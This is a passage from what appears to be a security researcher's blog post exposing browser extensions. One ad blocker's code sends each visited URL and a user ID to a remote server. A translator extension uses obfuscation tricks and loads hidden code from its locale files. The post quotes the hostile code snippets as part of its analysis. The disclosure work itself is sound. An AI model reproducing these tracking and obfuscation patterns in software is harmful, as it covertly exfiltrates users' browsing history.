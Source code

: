 But wait, there is some functionality to update the rules! Except: why would someone put rule updates into a [tabs.onUpdated listener](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/API/tabs/onUpdated)? This is the code running whenever a tab finishes loading (simplified):

```js
let response = await fetch("https://smartadblocker.com/extension/rules/api", {
  method: "POST",
  credentials: "include",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    url: tab.url,
    userId: (await chrome.storage.sync.get("userId")).userId
  })
});
let json = await response.json();
for (let key in json)
  …
```

Supposedly, the response is a list of rules instructing the extension to remove elements on the page by their id, class or text. In reality this website always responds with “502 Bad Gateway.”

Now the website could of course be misconfigured. It’s more likely however that the website is working as intended: logging the incoming data (each address you navigate to along with your unique ID) and producing an error message to discourage anyone who comes looking.

It’s not like the developers behind these extensions don’t know how to produce a (moderately) better ad blocker. My list also features an extension called “Adblock Unlimited” which, despite similar code, manages to ship more than 10,000 rules. It also manages to complement these rules with dynamically downloaded anti-malware rules without leaking your visited addresses. Oh, and it has “anti-malware protection”: a content script that will detect exclusively test pages like `maliciouswebsitetest.com`.

### Translator - Select to Translate

My list features nine very similar, yet subtly different translator extensions. One of the differences in “Translator - Select to Translate” is a number of unusual functions, seemingly with the purpose of obfuscating the purpose of the code. For example, there is this gem:

```js
var base = e => e ? atob(e) : "parse";
```

This function is either used with a parameter to decode Base64, or without parameters to obfuscate a `JSON.parse()` call. When you start looking how these weird functions are used, it all leads to the `locales()` function:

```js
function locales(callback)
{
  chrome.runtime.getPackageDirectoryEntry(dirEntry =>
  {
    dirEntry.getDirectory("_locales", {}, dir =>
    {
      const reader = dir.createReader();
      const promises = [];
      reader.readEntries(entries =>
      {
        for (const entry of entries)
        {
          if (!entry.name.startsWith("."))
          {
            promises.push(new Promise((resolve, reject) =>
            {
              const name = entry.name;
              entry.getFile("../messages.json", {}, entry =>
              {
                entry.file(file =>
```